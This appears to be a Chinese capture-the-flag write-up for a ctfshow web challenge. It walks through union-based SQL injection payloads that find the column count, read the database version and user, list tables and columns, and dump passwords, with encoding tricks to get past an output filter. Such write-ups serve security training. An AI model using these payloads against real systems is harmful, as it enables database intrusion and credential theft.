

同样存在输出过滤


同样慢慢来


闭合单引号并注释后面内容

```
1‘ --+
```


利用order by 判断回显位

```
1' order by 4 --+
```


order by 4异常


```
1' order by 3 --+
```


order by 3 正常显示

即有三个回显数


利用联合查询判断回显位

```
-1' union select 1,2,3 --+
```


三个回显位


获取版本信息，数据库名和用户信息

```
-1' union select version(),database(),user() --+
```


版本信息：10.3.18-MariaDB

数据库名：ctfshow_web

用户：root


获取表名

```
-1' union select 1,2,table_name from information_schema.tables where table_schema='ctfshow_web' --+
```



三张表

ctfshow_user

ctfshow_user2

ctfshow_user3


查询字段名

```
-1' union select 1,2,column_name from information_schema.columns where table_name='ctfshow_user' --+
```


```
-1' union select 1,2,column_name from information_schema.columns where table_name='ctfshow_user2' --+
```


```
-1' union select 1,2,column_name from information_schema.columns where table_name='ctfshow_user3' --+
```


存在三个字段

id

username

password


查询字段信息

由于存在输出过滤，因此我们只查询密码信息即可

```
-1' union select 1,2,password from ctfshow_user3 --+
```


或者编码绕过

hex

md5

base64


